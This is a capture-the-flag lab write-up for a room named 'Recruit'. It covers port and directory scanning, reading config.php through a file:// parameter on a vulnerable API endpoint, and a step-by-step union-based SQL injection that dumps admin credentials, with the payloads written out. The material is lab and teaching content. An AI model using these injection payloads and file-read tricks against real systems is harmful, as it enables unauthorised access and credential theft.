









# Recruit THM
**Difficulty**: Medium  
**Author**: W.  
**Date**: 1 Jul 2026  

```bash
export IP=10.48.151.14
```

# Recon 
We start by running a nmap scan to enumerate open TCP ports on the machine, with `-sC` for default script scanning and `-sV` for service version detection.  
```bash
nmap -sC -sV -v -oN nmap.log 10.48.151.14
```


We discovered that port `22`(SSH), `53`(DNS), and `80`(HTTP) are open.

Given that port `80` is open, we performed a directory scan to check for available directories and files using `ffuf`.
```bash
ffuf -w /opt/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.48.151.14/FUZZ
```


From the result, `/mail` stands out from them, after visiting, we discovered `mail.log` is available, which reveals the hr login username `hr` and its credential being stored in `config.php`. We also know that the admin credential are stored inside a backend database. 



# Website navigation and exploitation
After that, we navigate to the site with our browser, and we can see the login page and the `access api` in the footer. After navigating to the `access api` page, we discovered an api endpoint `/file.php?cv=<URL>`, which is likely vulnerable to Local File Inclusion(LFI).



From above, we already know there exist a `config.php` that have hr's credential.Knowing that the server is an apache webserver from the nmap scan, i.e. the root of web server is located ar `/var/www/html`, we try to inject the api endpoint with `file:///var/www/html/config.php` as the param while hoping the php code are not being executed. Luckily, the whole php file are readable and we discovered hr's password `hrpassword123`



After successfully logging in, we now have the user flag.



# Access as Admin
After gaining access to the dashboard, we can see a search bar available. From the `config.php`, we know that there are a database available at the backend, revealing that the search bar is likely related to the database. We suspected that it is vulnerable to SQL injection. We verify that by typing `'` in the search bar and a SQL Error was returned. We also know the backend database is running MySQL.



To access the admin credential, which are stored in other table of the database, we will be using a `UNION-Based` SQLi.

1. We test the number column
```sql
1' UNION SELECT 1 #              --SQL Error: The used SELECT statements have a different number of columns 
1' UNION SELECT 1, 2 #           --SQL Error: The used SELECT statements have a different number of columns 
1' UNION SELECT 1, 2, 3 #        --SQL Error: The used SELECT statements have a different number of columns 
1' UNION SELECT 1, 2, 3, 4 #     
```
This shows the query retrieves 4 columns

2. Extract database name using database()
```sql
0' UNION SELECT database(), 2, 3, 4 #
```
This reveals the database name: `recruit_db`.

3. Enumerating tables
```sql
0' UNION SELECT group_concat(table_name), 2, 3, 4 FROM information_schema.tables WHERE table_schema = 'recruit_db' #
```
This reveals two tables: `candidates` and `users`. Using common sense, we know that the admin credentials are likely stored in users. So we will be targeting table `users`.

4. Columns Enumeration
```sql
0' UNION SELECT group_concat(column_name), 2, 3, 4 FROM information_schema.columns WHERE table_name = 'users' #
```
While a lot of columns pop out, the two most important are `username` and `password`. 

5. Extracting data
```sql
0' UNION SELECT group_concat(username,':',password SEPARATOR '<br>'), 2, 3, 4 FROM users #
```
This extracts the credential of `admin` user.



After logging in with the admin credential, we get the adminb flag and completed the whole room.



# Conclusion
Overall, this is a relatively easy room that requires basic union-based sql injection and local file inclusion knowledge.

Thanks for seeing this whole thing where the author probably won't look at again. :)